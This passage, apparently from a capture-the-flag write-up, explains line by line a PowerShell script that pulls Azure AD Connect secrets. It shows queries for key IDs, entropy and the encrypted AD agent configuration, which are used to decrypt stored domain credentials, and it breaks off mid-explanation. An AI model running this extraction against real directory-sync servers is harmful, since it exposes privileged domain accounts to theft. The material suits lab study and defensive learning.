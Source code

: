 ```powershell

 # Fetch important stuff that we need
 $reader.Read() | Out-Null
 $key_id = $reader.GetInt32(0)
 $instance_id = $reader.GetGuid(1)
 $entropy = $reader.GetGuid(2)

 # Close the connection
 $reader.Close()
```
Detailed explanation:
The program checks to see if the db or the server paramter are empty. If so it proceeds to print out the help section.

If we pass the initial check, it then proceeds to set up a connection to a SQL Server using the aforementioned paramters (db name, and server) as well as using the current users credentials (mhope).


After openeing the connection, it creates an SQL query
`SELECT keyset_id, instance_id, entropy FROM mms_server_configuration` and then runs it on the server.

This query extracts 3 things

1. The key (an int), sample output: 1
2. The instance_id (a GUID), sample output: 1852b527-dd4f-4ecf-b541-efccbff29e31
3. entropy (a GUID), sample output: 194ec2fc-f186-46cf-b44d-071eb61f49cd

We will need this later in order to decrypt the encrypted format.

```powershell
# Create another command
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"

# Execute the command
$reader = $cmd.ExecuteReader()

# Fetch the output
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)

# Close the connection
$reader.Close()
```
Detailed explanation:

This is pretty similar to the previous section in that if fetches some stuff :) 

The block starts out with the author creating an SQL command `SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'`.

This SQL command extracts:
